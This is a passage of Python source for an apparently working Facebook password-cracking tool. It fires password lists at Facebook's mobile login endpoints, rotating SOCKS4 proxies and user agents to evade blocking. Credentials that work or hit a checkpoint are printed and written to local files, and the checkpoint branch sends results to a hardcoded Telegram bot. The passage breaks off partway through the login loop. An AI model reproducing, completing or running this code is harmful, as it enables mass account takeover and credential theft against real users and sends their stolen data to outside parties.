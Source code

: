 				pool.submit(crackfree,idf,pwv)
			elif 'touch' in method:
				pool.submit(cracktouch,idf,pwv)
	print(f' \x1b[1;91m\x1b[1;96m\x1b[1;97m CRACK COMPLETE ')
	print(f' \x1b[1;91m\x1b[1;96m\x1b[1;97m OK : {h}%s '%(ok))
	print(' \x1b[1;91m\x1b[1;96m\x1b[1;97m  RETURN CRACK \x1b[1;97m[Y]\n \x1b[1;91m\x1b[1;96m\x1b[1;97m \x1b[1;91mEXIT [T]')
	woi = input('\x1b[1;97m SELECT  : ')
	if woi in ['y','Y']:
		back()
	else:
		print(f'\t \x1b[1;91m\x1b[1;96m\x1b[1;97m BYE {u} ')
		time.sleep(2)
		exit()

def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([P,h,Z,N,O,U])
	sys.stdout.write(f"\r ✓ 𝚂𝙷𝚁𝚄𝙾𝙳 ッ-V1 ✓ {P}{b}{loop}{P}•{b}{len(id)}{P}  • OK:{P}{H}{ok}{P} •  CP:{P}{M}{cp}{P} • ({bo}{'{:.0%})'.format(loop/float(len(id)))}  "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\n\x1b[1;93m FACEBOOK: \x1b[1;96m{tahun(idf)}{P} \n\x1b[1;93m USERNAME: \x1b[1;96m{idf}\n\x1b[1;93m PASSWORD: \x1b[1;96m{pw}')
				requests.post(f"https://api.telegram.org/bot6253624827:6908344588:AAHCjVtf3Os2KDZlXovXA5xmLQ-4eJbWaRw         AAEmKBa-nRvk0TbAPXD8yoennyBe8zgbbXM/sendMessage?chat_id=6435364830&text="+x)
				open('f/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])